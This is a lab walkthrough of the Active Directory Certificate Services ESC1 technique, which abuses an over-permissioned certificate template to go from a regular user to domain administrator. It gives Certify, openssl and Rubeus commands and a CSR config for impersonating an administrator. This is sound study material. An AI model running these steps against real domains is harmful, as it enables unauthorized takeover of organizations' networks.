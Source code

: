 # From Misconfigured Certificate Template to Domain Admin

This is a quick lab to familiarize with ECS1 privilege escalation technique, that illustrates how it's possible to elevate from a regular user to domain administrator in a Windows Domain by abusing over-permissioned Active Directory Certificate Services (ADCS) certificate templates.

This lab is based on [Certified Pre-Owned: Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf) whitepaper by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) from [SpecterOps](https://specterops.io/).

## Finding Vulnerable Certificate Templates

Once in an AD environment, we can find vulnerable certificate templates by using `Certify`, a tool released by SpecterOps as part of their research mentioned above:

{% code title="attacker@target" %}
```
certify.exe find /vulnerable
```
{% endcode %}

Below shows a snippet of the redacted output from `Certify`, that provides information about a vulnerable certificate:

![Vulnerable certificate template identified by Certify](../../.gitbook/assets/vuln-template.png)

In the above screenshot, note the following 3 key pieces of information, that tell us that the certificate template is vulnerable and can be abused for privilege escalation from regular user to domain administrator:

* `msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT` field field, which indicates that the user, who is requesting a new certificate based on this certificate template, can request the certificate for another user, meaning any user, including domain administrator user.\
  \
  Below shows the same certificate template setting via GUI when inspecting certificate templates via `certsrv.msc`:\
  <img src="../../.gitbook/assets/suppy-in-request.png" alt="" data-size="original">\

*   `PkiExtendedKeyUsage: Client Authentication`, which indicates that the certificate that will be generated based on this certificate template can be used to authenticate to computers in Active Directory.\
    \
    Below shows the same setting via GUI when inspecting certificate templates via `certsrv.msc`:

    <img src="../../.gitbook/assets/client-authentication.png" alt="" data-size="original">\

* `Enrollment Rights: NT Authority\Authenticated Users`, which indicates that any authenticated user in the Active Directory is **allowed to request** new certificates to be generated based on this certificate template.\
  \
  Below shows the same setting via GUI when inspecting certificate templates via `certsrv.msc`:\
  ![](<../../.gitbook/assets/enroll-anyone (1) (1) (1).png>)

## Requesting Certificate with Certify

Once the vulnerable certificate template has been identified, we can request a new certificate on behalf of a domain administator using `Certify` by specifying the following parameters:

* `/ca` - speciffies the Certificate Authority server we're sending the request to;
* `/template` - specifies the certificate template that should be used for generating the new certificate;
* `/altname` - specifies the AD user for which the new certificate should be generated.

{% code title="attacker@target" %}
```
certify.exe request /ca:<$certificateAuthorityHost> /template:<$vulnerableCertificateTemplateName> /altname:<$adUserToImpersonate>
```
{% endcode %}

Below shows that the certificate in `PEM` format has been issued successfully:

![New certificate was issued off of the vulnerable certificate template](<../../.gitbook/assets/image (1086) (1) (1).png>)

## Converting PEM to PFX

As mentioned above, the certificate we just retrieved is in a `PEM` format.&#x20;

To use it with a tool like `Rubeus` to request a Kerberos Ticket Granting Ticket (TGT) for the user for which we minted the certificate, we need to convert the certificate to `PFX` format.

To do this, copy the certificate content printed out by `Rubeus` and paste it to a file called `cert.pem`.&#x20;

Then, convert it to `cert.pfx` with Open SSL (in Linux) like so:

{% code title="attacker@target" %}
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
{% endcode %}

## Requesting TGT with Certificate

Once we have the certificate in `cert.pfx`, we can request a Kerberos TGT for the user for which we minted the new certificate:

{% code title="attacker@target" %}
```
Rubeus.exe asktgt /user:<$adUserToImpersonate> /certificate:cert.pfx /ptt
```
{% endcode %}

Below shows that a new TGT for the target user (Domain Admin in our case) using [Rubeus](https://github.com/GhostPack/Rubeus) was requested and injected in to the current logon session (because of the `/ptt`):

![Using rubeus to request a TGT for a user for which we minted the certificate](../../.gitbook/assets/tgt-retrieved.png)

At this point, we can test if we elevated our privileges to domain administrator by listing the administrative `c$` share on a server that we don't normally have local administrator privileges on:

![Listing a C$ share to confirm administrator access on a server](../../.gitbook/assets/testing-access.png)

## Bonus: Requesting Certificate Manually

This is a bonus section that shows how we can request a new certificate for a targeted user without Rubeus, but with a Certificate Signing Request (CSR) file crafted manually and later submitted to Active Directory Certificate Services self-service web portal.

### Crafting Certificate Signing Request File

Create a new file `cert.cnf` with the following contents (modify fields as deemed appropriate):

{% code title="cert.cnf" %}
```
[ req ]
default_bits       = 2048
distinguished_name = req_distinguished_name
req_extensions     = req_ext
[ req_distinguished_name ]
countryName                 = GB
stateOrProvinceName         = State or Province Name (full name)
localityName               = Locality Name (eg, city)
organizationName           = Organization Name (eg, company)
commonName                 = Common Name (e.g. server FQDN or YOUR name)
[ req_ext ]
subjectAltName = otherName:1.3.6.1.4.1.311.20.2.3;UTF8:$adUserToImpersonate
```
{% endcode %}

The most important is line 12, which defines the `subjectAltName` field, which is a `samaccountname` of the user in Active Directory, which we want to ultimately impersonate (i.e. domain administrator) for which we will be requesting the certificate. \
\
`Samaccountname` value in this file is defined in the variable `$adUserToImpersonate` - you'd need to change it to the administrator's `samaacountname` you want to impersonate.

Once the `cert.cnf` file is ready, generate the actual Certificate Signing Request with `openssl` (in Linux):

```
openssl req -out cert-request.csr -newkey rsa:2048 -nodes -keyout key.key -config cert.cnf
```

Below shows how a base64 encoded Certificate Signing Request file `cert-request.csr` was created:

![Certificate Signing Request being generated with open ssl](<../../.gitbook/assets/image (1082).png>)

Now, copy the contents of the `cert-request.csr` as we will need it in the last step of this process as described below.

### Requesting Certificate via CertSrv Web Portal

Navigate to `https://$adcs/certsrv`, where `$adcs` is the Active Directory Certificate Services host and click `Request a certificate`:

![Requesting certificates via ADCS web self service portal](<../../.gitbook/assets/image (1088) (1) (1).png>)

Click `advanced certificate request`:

![](<../../.gitbook/assets/image (1083) (1).png>)

Finally, select the vulnerable certificate template you want to base your new rogue certificate on, paste the contents of the `cert-request.csr` into the request field and hit `Submit` to retrieve the new certificate for your target user:

![Portal for submitting advanced certificate request](<../../.gitbook/assets/image (1085) (1) (1) (1).png>)

## References

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

[Certified Pre-Owned: Abusing Active Directory Certificate Services](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)
